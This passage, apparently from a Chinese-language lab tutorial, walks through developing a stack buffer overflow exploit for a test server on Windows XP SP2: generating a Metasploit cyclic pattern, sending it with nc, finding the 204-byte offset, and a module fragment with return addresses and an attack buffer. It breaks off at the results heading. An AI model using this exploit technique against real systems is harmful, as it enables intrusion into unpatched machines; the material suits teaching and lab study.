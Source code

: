 （1）首先在windows xp sp2用windbg打开Server服务程序，启动7777端口。
（2）在Kali 2.0上生成有序的定长字符串，这儿使用的是msf的工具pattern_create

	# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb 1000 > /root/Desktop/hi.txt

（3）在Kali 2.0上连接Windows xp sp2(ip地址为192.168.124.132)上的Server服务器

	# cat /root/Desktop/hi.txt | nc 192.168.124.132 7777

（4）在windows xp sp2上查看被覆盖的地址，可以从eip上查看

![覆盖的返回地址](/images/2017-06-21/cover_addr.jpg)

（5）在Kali 2.0上使用msf工具pattern_offset获取地址偏移

![获取偏移地址](/images/2017-06-21/offset.jpg)

所以最终可以确定，当字符串长度大于204个字节的时候，从第204个字节开始，后4个字节覆盖了该函数的返回地址

##### 综合编写exploit
综合上述找到的返回地址以及覆盖返回地址时前面需要字符串长度，最后可以得到以下几个部分:

	'Targets' => [
                    [ 'Windows 2000',{ 'Ret' => 0x77F8948B } ],
                    [ 'Windwos xp sp2',{ 'Ret' => 0x7C914393 } ],
                    [ 'Windwos xp sp3',{ 'Ret' => 0x7c86467b} ],
                    ],


    attack_buf = 'a'*204 + [target['Ret']].pack('V') + payload.encoded


### 5、测试结果
